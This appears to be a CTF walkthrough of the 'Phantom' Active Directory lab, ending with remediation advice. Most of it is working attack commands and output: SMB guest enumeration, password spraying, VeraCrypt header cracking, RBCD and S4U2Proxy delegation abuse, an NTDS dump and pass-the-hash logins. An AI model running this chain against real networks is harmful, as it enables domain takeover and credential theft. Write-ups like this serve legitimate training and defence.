


## Technical Writeup

### Introduction

The "Phantom" CTF simulates a Windows Active Directory network, mirroring typical corporate environments. This write-up details the steps taken to gain unauthorized access and ultimately compromise the domain controller. It is presented in a hybrid style, blending a typical CTF walkthrough with elements of a professional penetration testing report. As such, not all enumeration steps that were performed are documented exhaustively.

The objective on this medium-difficulty machine was to achieve both **user** and **Root/Administrator** access, following a logical attack path from reconnaissance to full domain compromise.

---
#### High-Level Attack Chain


### Tools Used

| Tool | Purpose | Key Features Used | Link |
| :--- | :--- | :--- | :--- |
| **nmap** | Port/service discovery | `-sC` `-sV` for default scripts and versioning | [nmap.org](https://nmap.org/) |
| **NetExec** | SMB enum/exploitation | RID brute-force, share listing, spidering | [GitHub](https://github.com/Pennyw0rth/NetExec) |
| **BloodHound** | AD graph analysis | Path visualization (via RustHound ingest) | [GitHub](https://github.com/SpecterOps/BloodHound-Legacy) |
| **RustHound** | AD data collection | ZIP output for BloodHound | [GitHub](https://github.com/NH-RED-TEAM/RustHound) |
| **VeraCrypt** | Encrypted volume mounting | Container decryption | [veracrypt.io](https://veracrypt.io/en/Home.html) |
| **hashcat**| Password cracking | Mode 13722 for VeraCrypt headers | [hashcat.net](https://hashcat.net/hashcat/) |
| **BloodyAD**| AD manipulation | `set password`, `add rbcd` | [GitHub](https://github.com/CravateRouge/bloodyAD) |
| **Impacket**| Kerberos/SMB attacks | `getTGT.py`, `getST.py`, `changepasswd.py` | [GitHub](https://github.com/fortra/impacket) |

---
### Initial Enumeration and Reconnaissance

The initial reconnaissance phase focused on gathering comprehensive information about the target system at `10.129.234.63`.

#### Nmap Scan

An `nmap` scan was conducted to identify open ports and running services.

*   **Command**:
    ```bash
    nmap -sC -sV 10.129.234.63 -oA Outputs/nmap/initial
    ```

The scan revealed a standard Windows Domain Controller setup with several key services exposed:

*   **Port 53 (DNS):** `Simple DNS Plus`
*   **Port 88 (Kerberos):** `Microsoft Windows Kerberos`
*   **Port 135 (MSRPC):** `Microsoft Windows RPC`
*   **Port 139 (NetBIOS-SSN):** `Microsoft Windows netbios-ssn`
*   **Port 389 (LDAP):** `Microsoft Windows Active Directory LDAP (Domain: phantom.vl)`
*   **Port 445 (SMB):** `Microsoft Windows` (SMB signing enabled and required)
*   **Port 3389 (RDP):** `Microsoft Terminal Services`

Crucial domain information was immediately identified from the output: `phantom.vl` and `DC.phantom.vl`.

#### SMB Enumeration with NetExec

With SMB (port 445) confirmed as open, further enumeration of shares and users was performed using `NetExec`.

**1. Null/Guest Access Check:**

*   **Command**:
    ```zsh
    nxc smb 10.129.234.63 -u 'a' -p '' --log Outputs/nxc/guest_scan.txt
    ```
*   **Output**:
    ```zsh
    SMB         10.129.234.63   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:phantom.vl) (signing:True) (SMBv1:False) (Null Auth:True)
    SMB         10.129.234.63   445    DC               [+] phantom.vl\a: (Guest)
    ```
The output confirmed that both guest and null bindings were successful, indicating the potential for further enumeration with guest privileges.

**2. Listing Shares:**

*   **Command**:
    ```zsh
    nxc smb 10.129.234.63 -u 'a' -p '' --shares --log Outputs/nxc/guest_shares.txt
    ```
*   **Output Snippet**:
    ```zsh
    SMB         10.129.234.63   445    DC               Public          READ
    ```
The `Public` share with `READ` permissions was noted for further investigation.

**3. Listing Users via RID Bruteforce:**

*   **Command**:
    ```zsh
    nxc smb 10.129.234.63 -u 'a' -p '' --rid-brute --log Outputs/nxc/rid_scan.txt
    ```
*   **Output Snippet**:
    ```
    SMB         10.129.234.63   445    DC               1103: PHANTOM\svc_sspr (SidTypeUser)
    SMB         10.129.234.63   445    DC               1112: PHANTOM\rnichols (SidTypeUser)
    ```
This scan provided a valuable list of domain users and groups. The `svc_sspr` user was of particular interest, as service accounts often have unique privileges.

**4. Exploring Shares:**

*   **Command**:
    ```zsh
    nxc smb 10.129.234.63 -u 'a' -p '' -M spider_plus -o DOWNLOAD_FLAG=True OUTPUT_FOLDER=./spider --log spider_shares.txt
    ```
A single file, `tech_support_email.eml`, was discovered in the `Public` share. The email contained a PDF attachment revealing a default password: `Password: Ph4nt0m@5t4rt!`.


---
### Initial Access

#### Password Spray

The discovered password was used in a password spraying attack against the enumerated user list.

*   **Command**:
    ```zsh
    nxc smb 10.129.234.63 -u ridusers -p 'Ph4nt0m@5t4rt!' --continue-on-success --log ./Outputs/nxc/spray.txt
    ```
*   **Output Snippet**:
    ```zsh
    SMB         10.129.234.63   445    DC               [+] phantom.vl\ibryant:Ph4nt0m@5t4rt!
    ```
A successful login was achieved for the user `ibryant`, providing valid domain credentials and establishing an initial foothold.

---
### Discovery

With authenticated access, the enumeration process was repeated to uncover new information.

#### Exploring Shares with New Credentials

*   **Command**:
    ```zsh
    nxc smb 10.129.234.63 -u ibryant -p 'Ph4nt0m@5t4rt!' --shares
    ```
*   **Output**:
    ```zsh
    SMB         10.129.234.63   445    DC               Departments Share READ
    ```
`ibryant` had `READ` access to the `Departments Share`. Spidering this share revealed an interesting backup file: `IT/Backup/IT_BACKUP_201123.hc`, which appeared to be a VeraCrypt encrypted container.

#### BloodHound Analysis

`RustHound` was used to collect Active Directory data for analysis in `BloodHound`.

*   **Command**:
    ```zsh
    rusthound -u ibryant -p 'Ph4nt0m@5t4rt!' --domain phantom.vl --ldapip 10.129.234.63 --zip --output ./BloohoundIngest
    ```

**Immediate Findings:**

*   **High-Value Target (HVT):** The `svc_sspr` account was identified as a key target. It held membership in `REMOTE MANAGEMENT USERS` and possessed `ForceChangePassword` rights over `wsilva`, a member of the `ICT Security` group.
    

*   **Path to Admin:** The `ICT Security` group had a direct path to domain compromise via a Resource-Based Constrained Delegation (RBCD) misconfiguration (`AddAllowedToAct`) on the Domain Controller.
    

This analysis made compromising the `svc_sspr` account the primary objective for privilege escalation.

---
### Privilege Escalation

#### Cracking the VeraCrypt Container

The `IT_BACKUP_201123.hc` file was targeted. The first 512 bytes, containing the encrypted volume header, were extracted for cracking.

*   **Command**:
    ```zsh
    dd if=./IT_BACKUP_201123.hc of=./hash bs=512 count=1
    ```

Based on a hint from the CTF platform, a targeted wordlist was generated.

*   **Command**:
    ```zsh
    crunch 12 12 -t 'Phantom202%^' -o wordlist.txt
    ```

`hashcat` was used to crack the VeraCrypt volume password.

*   **Command**:
    ```zsh
    hashcat -a 0 -m 13722 hash wordlist.txt
    ```
*   **Result**:
    ```zsh
    hash:Phantom2023!
    Session..........: hashcat
    Status...........: Cracked
    Hash.Mode........: 13722 (VeraCrypt SHA512 + XTS 1024 bit (legacy))
    Hash.Target......: hash
    Time.Started.....: Fri Oct 17 09:09:08 2025 (6 secs)
    Time.Estimated...: Fri Oct 17 09:09:14 2025 (0 secs)
    ```

#### Mounting the Container and Finding Credentials

With the password `Phantom2023!`, the container was mounted.

*   **Command**:
    ```zsh
    veracrypt IT_BACKUP_201123.hc /mnt/ --password='Phantom2023!'
    ```

A recursive search for the string "password" within the mounted files yielded a promising result.

*   **Command**:
    ```zsh
    rg -i "password"
    ```
*   **Output Snippet**:
    ```
    run/vyatta/config/config.json
    {"local-users": {"username": {"lstanley": {"password": "gB6XTcqVP5MlP7Rc"}}}
    ```

#### Pivoting with New Credentials

The discovered password `gB6XTcqVP5MlP7Rc` was sprayed against the user list, yielding a hit on our HVT.

*   **Command**:
    ```zsh
    nxc smb 10.129.234.63 -u ridusers -p 'gB6XTcqVP5MlP7Rc' --continue-on-success
    ```
*   **Output Snippet**:
    ```zsh
    <SNIP>
    [+] phantom.vl\svc_sspr:gB6XTcqVP5MlP7Rc
    <SNIP>
    ```

#### Obtaining User Flag

As `svc_sspr` is a member of `REMOTE MANAGEMENT USERS`, a WinRM shell was established.

*   **Command**:
    ```zsh
    evil-winrm -i phantom.vl -u svc_sspr -p gB6XTcqVP5MlP7Rc
    ```
*   **Result**:
    ```zsh
    *Evil-WinRM* PS C:\Users\svc_sspr\Desktop> cat user.txt
    5c66a7ab1971f8793c86676296abbb8d
    ```
The user flag was successfully obtained.

---
### Lateral Movement and Impact

The previously identified attack path via RBCD was now executed to achieve domain compromise.

**1. Take Control of `wsilva`**

The `ForceChangePassword` privilege was used to reset the password for `wsilva`.

*   **Command**:
    ```zsh
    bloodyAD -d phantom.vl -u svc_sspr -p gB6XTcqVP5MlP7Rc --host 10.129.234.63 set password wsilva Summer2025
    ```

**2. Configure RBCD**

With control over `wsilva` (who has `AddAllowedToAct` rights), the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute on the Domain Controller (`DC$`) was modified to include `wsilva`.

*   **Command**:
    ```zsh
    bloodyAD -d phantom.vl -u wsilva -p Summer2025 --host 10.129.234.63 add rbcd DC$ wsilva
    ```

**3. S4U2Proxy Attack**

To leverage the RBCD with a user account, which is our only path forward due to our `ms-DS-MachineAccountQuota` being 0, a series of steps were required to perform an S4U2proxy attack, as detailed by [James Forshaw](https://www.tiraniddo.dev/2022/05/exploiting-rbcd-using-normal-user.html).

*   **Calculate NTLM Hash**: The NTLM hash of `wsilva`'s new password was calculated.
    *Note: You may not need to do this. In my case, I needed to force a RC4-based TGT, which yields a 32-character session key. Using a plaintext password (`Summer2025`) generated a AES256 64-character key, which is not compatible with the subsequent steps.*
    ```zsh
    NTLM=$(echo -n 'Summer2025' | iconv -f UTF-8 -t UTF-16LE | openssl dgst -md4 | awk '{print $2}')
    ```

*   **Request TGT**: A Ticket Granting Ticket for `wsilva` was requested using the NTLM hash.
    ```zsh
    getTGT.py -hashes :$NTLM phantom.vl/wsilva -dc-ip 10.129.234.63
    ```

*   **Extract Session Key**: The session key was extracted from the cached TGT.
    ```zsh
    describeTicket.py wsilva.ccache | grep 'Ticket Session Key'
    # Output: [*] Ticket Session Key            : 098710b2cb0989cb38839638c24cd154
    ```

*   **Update Password Hash**: `wsilva`'s password hash was changed to the extracted TGT session key. This is a critical step that allows the user account to be used for delegation without requiring a Service Principal Name (SPN).
    ```zsh
    changepasswd.py -newhashes :098710b2cb0989cb38839638c24cd154 phantom.vl/wsilva:Summer2025@10.129.234.63
    ```

*   **Request Service Ticket**: A service ticket was requested to impersonate the `Administrator` on the Domain Controller's CIFS service.
    ```zsh
    KRB5CCNAME=wsilva.ccache getST.py -u2u -impersonate Administrator -spn cifs/DC.phantom.vl phantom.vl/wsilva -k -no-pass
    ```

**4. Dump NTDS and Obtain Root Flag**

With a service ticket for the Administrator, the NTDS.dit file was dumped remotely to obtain the Administrator's NTLM hash.

*   **Command**:
    ```zsh
    KRB5CCNAME=Administrator@cifs_DC.phantom.vl@PHANTOM.VL.ccache nxc smb dc.phantom.vl --use-kcache --ntds --user Administrator
    ```
*   **Output Snippet**:
    ```
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:aa2abd9db4f5984e657f834484512117:::
    ```

Using the dumped hash, a WinRM shell was established as the Administrator.

*   **Command**:
    ```zsh
    evil-winrm -i dc.phantom.vl -u administrator -H aa2abd9db4f5984e657f834484512117
    ```
*   **Result**:
    ```
    *Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
    60d108263adf1769459769c8ddb6efab
    ```
    The root flag was obtained, signifying full domain compromise.
---

### Summary of Attack Path

*   **Initial Access**: A default password (`Ph4nt0m@5t4rt!`) discovered in a PDF on a public SMB share allowed for a successful password spray, granting access as the user `ibryant`.
*   **Privilege Escalation**: Credentials for the `svc_sspr` account were found inside an encrypted VeraCrypt container accessible to `ibryant`. The container password was cracked using a targeted wordlist.
*   **Domain Admin**: The `svc_sspr` account had privileges to reset the password of `wsilva`, a member of the `ICT Security` group. This group's delegation rights (`AddAllowedToAct`) on the domain controller were exploited via a Resource-Based Constrained Delegation attack to impersonate the domain administrator and achieve full system compromise.

---

### Remediations

**Guest/Null Session Exposure**  
Anonymous or guest access to SMB shares and RPC endpoints enables unauthenticated reconnaissance such as RID cycling or enumeration of user and group information.  

**Remediation:**  
Disable null sessions through Group Policy (e.g. `Network access: Restrict anonymous access to Named Pipes and Shares` and `Network access: Do not allow anonymous enumeration of SAM accounts and shares`). Where possible, enforce SMB signing and restrict guest access entirely via `Network access: Restrict anonymous access`.  

---

**Default Password Reuse**  
The presence of a static default password in an onboarding or setup document poses a critical risk, as it may allow predictable account compromise.  

**Remediation:**  
Eliminate the use of static default passwords. Implement secure onboarding procedures that use randomised temporary passwords or one-time links. Enforce strong password policies (length, complexity, and rotation) and consider Just-In-Time (JIT) account provisioning where feasible.  

---

**RBCD Misconfigurations**  
Improper configuration of Resource-Based Constrained Delegation (RBCD) rights, such as the presence of `msDS-AllowedToActOnBehalfOfOtherIdentity` entries for non-privileged accounts, can allow lateral movement or privilege escalation.  

**Remediation:**  
Regularly audit RBCD configurations using tools such as BloodHound or PowerView. Remove unauthorised or unnecessary `msDS-AllowedToActOnBehalfOfOtherIdentity` entries, particularly on high-value assets like Domain Controllers and tier-0 servers. Implement change control processes to detect and review delegation-related ACL modifications.  

---

**Insecure Backup Storage**  
Sensitive backup data stored on accessible network shares, even when encrypted, remains at risk of exposure or offline brute-force attacks.  

**Remediation:**  
Store backups in an isolated and access-controlled location, separate from standard user and administrative shares. Manage encryption keys securely using a dedicated secrets management platform or Hardware Security Module (HSM). Rotate keys periodically and ensure that backup credentials and encryption material are not stored alongside the backups themselves.  

---

**Principle of Least Privilege Violations**  
The `svc_sspr` account had excessive rights, including `ForceChangePassword` privileges over a privileged group member, which violates least privilege principles and enables potential privilege escalation.  

**Remediation:**  
Perform regular Active Directory privilege audits to identify and remove excessive or inherited rights. Restrict service accounts to only the permissions strictly required for their intended function. Where possible, separate administrative roles and apply tiered access models (Tier 0–2) to minimise risk from compromised service accounts.  

---
### References

*   **Abusing Kerberos Delegation**: [The Hacker Recipes - Resource-Based Constrained Delegation](https://www.thehacker.recipes/ad/movement/kerberos/delegations/rbcd)
*   **Exploiting RBCD with a User Account**: [James Forshaw - Exploiting RBCD Using a Normal User Account](https://www.tiraniddo.dev/2022/05/exploiting-rbcd-using-normal-user.html)
